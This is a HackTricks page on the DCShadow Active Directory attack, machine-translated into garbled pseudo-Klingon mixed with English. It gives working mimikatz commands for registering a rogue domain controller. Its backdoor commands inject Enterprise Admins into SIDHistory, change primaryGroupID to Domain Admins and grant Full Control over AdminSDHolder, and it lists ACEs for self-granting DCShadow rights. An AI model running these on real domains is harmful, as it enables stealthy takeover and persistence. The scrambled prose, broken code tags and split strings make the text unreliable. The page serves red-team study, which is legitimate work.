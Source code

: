 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> jImej</summary>

jImej vItlhutlh:

* **HackTricks** vItlhutlh **tlhIngan Hol** **company** **advertised** **want** **download HackTricks** **PDF** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) **Check**!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **Get**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **Discover**, [**NFTs**](https://opensea.io/collection/the-peass-family) **our collection** **exclusive**
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **Join** or [**telegram group**](https://t.me/peass) **follow** **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) **and** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos.**

</details>


# DCShadow

**AD** vItlhutlh **new Domain Controller** **registers** **push attributes** (SIDHistory, SPNs...) **specified objects** **without** **logs** **modifications** **regarding**. **DA** **privileges** **need** **be inside** **root domain**.\
**Note** **wrong data** **use**, **pretty ugly logs** **will appear**.

**attack** **perform** **2 mimikatz instances** **need**. **One** **start the RPC servers** **SYSTEM privileges** (you **indicate** **changes** **want** **perform**), **other instance** **used** **push the values**:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% code title="mimikatz2 (push) - DA yInIDqaD" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Notice that **`elevate::token`** won't work in `mimikatz1` session as that elevated the privileges of the thread, but we need to elevate the **privilege of the process**.\
You can also select and "LDAP" object: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

You can push the changes from a DA or from a user with this minimal permissions:

* In the **domain object**:
* _DS-Install-Replica_ (Add/Remove Replica in Domain)
* _DS-Replication-Manage-Topology_ (Manage Replication Topology)
* _DS-Replication-Synchronize_ (Replication Synchornization)
* The **Sites object** (and its children) in the **Configuration container**:
* _CreateChild and DeleteChild_
* The object of the **computer which is registered as a DC**:
* _WriteProperty_ (Not Write)
* The **target object**:
* _WriteProperty_ (Not Write)

You can use [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) to give these privileges to an unprivileged user (notice that this will leave some logs). This is much more restrictive than having DA privileges.\
For example: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  This means that the username _**student1**_ when logged on in the machine _**mcorp-student1**_ has DCShadow permissions over the object _**root1user**_.

## Using DCShadow to create backdoors

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% code title="Chage PrimaryGroupID (put user as member of Domain Administrators)" %} 

{% code %}
Chage PrimaryGroupID (put user as member of Domain Administrators)
{% code %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% code title="Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)" %}

{% code %}
```
$secdesc = Get-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=com" -Properties ntSecurityDescriptor
$acl = $secdesc.ntSecurityDescriptor
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList "DOMAIN\user", "FullControl", "Allow"
$acl.AddAccessRule($ace)
Set-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=com" -Replace @{ntSecurityDescriptor=$acl}
```
{% endcode %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow permissions jImej using DCShadow (loghDaq modified permissions)

jImejbe'chugh, user SID vItlhutlhlaHbe'lu':

* Domain objectDaq:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* attacker computer objectDaq: `(A;;WP;;;UserSID)`
* target user objectDaq: `(A;;WP;;;UserSID)`
* Sites objectDaq Configuration containerDaq: `(A;CI;CCDC;;;UserSID)`

objectDaq current ACE vItlhutlhlaHbe'lu': `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

DaH jImejbe'chugh, **chel** vItlhutlhlaHbe'lu' **be'nal**. So, **mimikatz1 session** (RPC server)Daq **`/stack` parameter** vIlo'laHchugh **be'nal jImejbe'chugh** vItlhutlhlaH. vaj, **`/push`** vItlhutlhlaHlaHchugh **jImejbe'chugh** vItlhutlhlaH.

[**DCShadow vItlhutlhlaH ired.teamDaq.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


<details>

<summary><strong>AWS hacking jImej zero to hero vItlhutlhlaH</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks vItlhutlhlaHbe'chugh jImej:

* **company HackTricksDaq advertise** vItlhutlhlaHbe'lu' **tlhIngan** **download HackTricks PDF** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) vItlhutlhlaH!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) vItlhutlhlaHbe'lu'
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) vItlhutlhlaHbe'lu' **NFTs** [**The PEASS Family**](https://opensea.io/collection/the-peass-family) vItlhutlhlaHbe'lu'
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** (https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
